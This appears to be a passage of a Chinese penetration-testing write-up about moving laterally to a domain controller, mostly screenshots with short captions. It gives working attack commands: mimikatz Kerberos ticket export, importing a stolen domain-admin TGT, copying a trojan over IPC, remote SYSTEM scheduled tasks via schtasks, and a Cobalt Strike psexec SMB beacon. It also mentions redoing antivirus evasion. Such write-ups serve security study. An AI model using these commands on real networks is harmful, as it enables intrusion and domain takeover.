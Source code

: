 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133713.png)

查看票据,导出票据mimikatz kerberos::list

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133714.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133715.png)

拿着导出的其他域管TGT去导入本机

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133716.png)

Klist 查看当前本机已有的票据

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133717.png)

直接dir10.10.1.10域控c盘，可以访问到

![]()

这里想通过ipc管道执行命令来着，一直报服务没开启

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133718.png)

一顿尝试之后，准备使用copy文件和写计划任务上线，先在跳板机上传一个马到机器上，通过ipc管道copy到10.10.1.10域控机器上

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133719.png)

通过ipc管道添加计划任务，有时候因为安全配置不允许直接添加任务，要在后面添加账号密码 /U 账号 /P 密码

    
    
    schtasks /create /s 目标ip /tn 计划任务名称 /sc onstart /tr 对方目录 /ru system /f  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133721.png)

执行计划任务,同样，如果有安全配置一样在后面添加密码就可以

    
    
    schtasks /run /tn test /s IP  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133722.png)

删除计划任务

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133727.png)

第一次是马被杀了。。一直没反应过来，还等了半天。。后面重新做免杀、添加计划任务、执行，还是没连接过来，想了一下可能是目标不出网，因为已经建立了ipc管道，想了想直接用smb的beacon正向连接，普通的psexec不太行，换了powershell版本就可以了。

    
    
    jump psexec64 10.10.1.10 smb  //这里的smb是smb的Listeners  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133731.png)

    
    